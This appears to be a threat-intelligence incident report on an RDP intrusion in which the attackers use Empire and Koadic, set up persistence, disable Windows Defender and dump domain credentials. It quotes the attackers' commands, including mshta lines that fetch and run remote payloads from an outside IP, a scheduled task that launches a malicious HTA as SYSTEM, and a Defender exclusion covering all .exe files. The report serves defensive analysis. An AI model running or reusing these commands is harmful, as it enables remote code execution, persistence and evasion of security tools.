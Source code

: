 # Initial Access

Initial access for this actor was via exposed RDP services. Originally, the actor connected from 198.96.155.3, and then performed a kind of hand off over the course of the campaign, first to 23.129.64.190 and then finally 185.220.100.240. All 3 of these IP’s belong to the Tor network and function as exit nodes.

# Execution

The threat actors started off by using RDP but also relied on 2 different OSTs during this intrusion.

A few minutes after gaining access, they moved laterally to a domain controller and then executed a PowerShell launcher for Empire.

Later during the intrusion, the threat actors employed another OST named Koadic. To execute Koadic, they employed a MSHTA launcher with javascript.

mshta http://45.147.231.210:9999/8k6Mq mshta http://45.147.231.210:9999/VtgyT

From those two executions, various child processes were created to load stage 2 into memory.

# Persistence

Persistence was setup using Koadic to schedule a task to execute a HTA file located in the C:\ProgramData directory at logon as system. This will initiate C2 back to the Koadic server.

schtasks /create /tn K0adic /tr "C:\Windows\system32\mshta.exe C:\ProgramData\SZWXNUHHDP.hta" /sc onlogon /ru System /f

# Defense Evasion

The threat actors disabled Windows Defender using Local Group Policy Editor.

Later, they also ran a PowerShell script that would again disable Windows Defender, this time using MpPreference. The script also targeted Malwarebytes, agents, Citrix, Exchange, Veeam, SQL and many other processes. Event ID 5001 was created due to Defender AV Real-Time being disabled.

A Defender exclusion was also added to exclude everything with .exe as the extension.

Add-MpPreference -ExclusionExtension ".exe" Event ID 5007 Windows Defender Antivirus Configuration has changed. If this is an unexpected event you should review the settings as this may be the result of malware. Old value: New value: HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Extensions\.exe = 0x0

# Credential Access

The threat actors displayed multiple techniques for gathering credentials during this intrusion.

Credentials were dumped manually via Task Manager as they RDPed into each system.

While established on a domain controller the threat actors also created and accessed a shadow copy of the ntds.dit and most likely exfiltrated it via their Koadic C2 channel.
